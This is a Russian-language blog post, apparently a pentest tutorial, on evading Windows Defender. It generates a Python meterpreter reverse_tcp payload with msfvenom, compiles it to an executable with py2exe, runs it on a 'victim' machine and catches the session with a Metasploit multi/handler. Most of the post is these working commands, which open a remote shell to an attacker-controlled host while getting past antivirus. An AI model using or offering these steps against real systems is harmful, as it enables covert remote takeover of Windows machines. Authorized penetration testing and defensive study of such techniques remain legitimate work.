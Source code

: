 ```yaml
---
layout: post
categories: articles_rus
tags:
  - python
  - rev_shell
  - meterpreter
published: true
---
```


# Оглавление
{:.no_toc}

* toc
{:toc}

# Введение

Итак ситуация, есть возможность загрузить на тестируемую в рамках пентеста или другой легимитивной деятельности Windows машину файл и даже возможно исполнить его. Если мы говорим об последней, десятой версиии ОС то мы столкнёмся с местнымм его защитником Windows Defender, так же велика вероятность наткнуться на антивирус. В такой ситуации очень удобный и расширяемый meterpreter не сможет работать, какая есть альтернатива? 

## Python
{:id="python"}

Вот и ответ, использование Python в связке с metasploit и msfvenom позволяет нам получить достойную альтернативу классическому meterpreter с большинством его удобных функций. Правда некоторыми придется пожертвовать, не будет возможности использовать такие команды как getsystem и нельзя будет мигрировать в процесс.


# Начинаем

Общая схема такова: мы генерируем python код с помощью msfvenom, "скармливаем" его py2exe, полученый бинарник запускаем на машине жертвы и ловим сессию.
<br><br>
Для начала установим py2exe под 3.4 версию так как всё что выше не поддерживается.
~~~
pip install py2exe
~~~
Или, если вы как и я любите обновляться
~~~
python -3.4 –m pip install py2exe
~~~

<br><br>

Далее создаём .py код:
~~~
msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > payload.py
~~~

К коду необходимо добавить import getpass который msfvenom по умолчанию почему-то не делает.

<br><br>


Делаем exe:
<br>
~~~
python34 -m py2exe.build_exe payload.py --bundle-files 0
~~~


И запускаем его на машине жертвы предварительно запустив handler:<br>
~~~
msfconsole
use exploit/multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set lhost eth0
set lport <PORT>
run
~~~

И получаем коммандную оболочку:

![Python_shell]({{ site.baseurl }}/rus/assets/img/posts_rus/python_shell.jpg){:class="imghalf"}

# Заключение
{:id="end"}

Простой и эффективный способ борьбы с Windows Defender если не хочется терять удобный и привычный функционал meterpreter в угоду более нативным решениям, как например ssh или telnet. 
<br>